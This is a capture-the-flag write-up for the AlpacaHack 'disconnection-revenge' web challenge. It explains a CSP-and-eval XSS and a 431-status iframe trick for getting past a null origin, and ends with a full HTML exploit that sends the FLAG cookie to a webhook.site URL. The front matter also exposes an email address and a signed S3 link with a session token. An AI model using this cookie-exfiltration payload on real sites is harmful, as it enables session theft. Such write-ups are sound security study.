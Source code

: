 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4665I3YA5UX%2F20250522%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250522T210321Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjECUaCXVzLXdlc3QtMiJHMEUCIDSSdgT1IgI5vWdz5wcZG%2Fdj5TTddescIVgf7UqsGGzdAiEA80ntVOrozQ454hWAcMe4aiLmjWaD6XONhkVAgSoAKNIqiAQI3v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDOJZ0pP4laGkwQ8ojircAyM4vY6%2BeAgqCaexXhfp7LKklgCY6VLH5Pqa52SGdwdgNX34T4ze34qcMljKySlhHUZEPF2DpRNMxhg%2B4wI7DwfmkbTsHa2dZZNVaL4%2Bn955lQCUBAsJQAUNXc7d8qRPoZbTFgXsp1RUYoFbB9yoI%2BlOGQMU6kysKbAurnhX89kalJl3fJE27rYxbsG9vk0qme%2Fb0BUn1DOYjCySkNgrqaN6g2fN0jIWy5vd4c3GpVKRYwh8UC%2FuFe%2B0BDZDo%2Bsl2JFGVZgHPM1zJnMupTL%2BvshwlQgR9RjzE5zo3sZODdUbCO7iGPqOZLy%2FzP2r0V%2BlaI7D%2BonoY9sYSFIjIUmlJa5hAlyFR9U880iXuWOpjvbVilXQg2xvEYOe5KLCaa2xZrWkNylaRHCSDgf0%2FQVUmTUdfbgUoFNURr4A%2F5%2F1%2FLSzvIdVpaSPJun6RYDdeYXTMxhd%2F2VU%2F7InYhNvEuCmmqXCvCOLQfqYuXpAAtQOx9CtyTyX6FFsFZofjrCYvNjTCyluDVuRyXd05jayx%2Bs%2FiHPKdZ2YU7NkJcU4nbK4hDIe9r4vRtRDgbXYuuU74Lr2LQTIEQ77ZviI%2Bgztc%2F97ZLmK%2FhfIGFa8usyoL%2BmGDge0mSeQC5myJ5My8gZWMI6TvsEGOqUB43GdNgTKAy5eYDsYEUVMK%2BmPT6du4yxiuwxG24QfDUpVokn4dLBPQiJqISZokAkZfrLs6GkO%2F0v9keWWIvD8Cckr%2FJESbWQ0vJETziqhGNmXp7H3EFx16L%2FsDMDSSu6mUra0IDETl36XbOK07L0fdZxxYdeP1Zc3QkV7GwgihT9RiaUIRUL9%2B%2FAxYrTwiQM0VaCcKYvBVypLmgSNQppl7RCjlBiE\&X-Amz-Signature=761355f65aa0ec5df41876ef4836f081186d4ac817540d2c0a84d5ffafdefb29\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
